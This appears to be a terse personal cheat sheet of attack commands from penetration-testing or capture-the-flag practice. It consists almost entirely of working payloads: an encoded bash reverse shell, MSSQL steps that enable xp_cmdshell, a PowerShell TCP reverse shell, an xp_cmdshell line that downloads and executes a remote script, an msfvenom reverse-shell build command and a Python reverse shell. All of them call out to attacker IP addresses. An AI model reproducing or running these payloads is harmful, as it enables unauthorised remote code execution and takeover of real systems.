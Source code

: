 #Shell encode

``` 
 bash+-c+'bash+-i+>%26+/dev/tcp/192.168.49.134/80+0>%261'

```
# exploittation
 go to insite and run: 
``` 
 EXEC sp_configure 'Show Advanced Options', 1;
reconfigure;
sp_configure;
EXEC sp_configure 'xp_cmdshell', 1
reconfigure;
xp_cmdshell "whoami"

```

ReverseShell:
```
$client = New-Object System.Net.Sockets.TCPClient("10.10.14.3",443);$stream =
$client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i =
$stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName
System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 |
Out-String );$sendback2 = $sendback + "# ";$sendbyte =
([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyt
e.Length);$stream.Flush()};$client.Close()
``` 
save the shell.ps1 file. then using the python to download 

From the sql cmd: 

xp_cmdshell "powershell "IEX (New-Object Net.WebClient).DownloadString(\"http://IP/shell.ps1\");"

# msf venom

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.37 LPORT=53 -f exe -o reverse64.exe
```
# python

```
import socket,subprocess,os;
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("10.10.14.6",1233));
dup2(s.fileno(),0); 
dup2(s.fileno(),1); 
dup2(s.fileno(),2);
p=subprocess.call(["/bin/sh","-i"]);
```
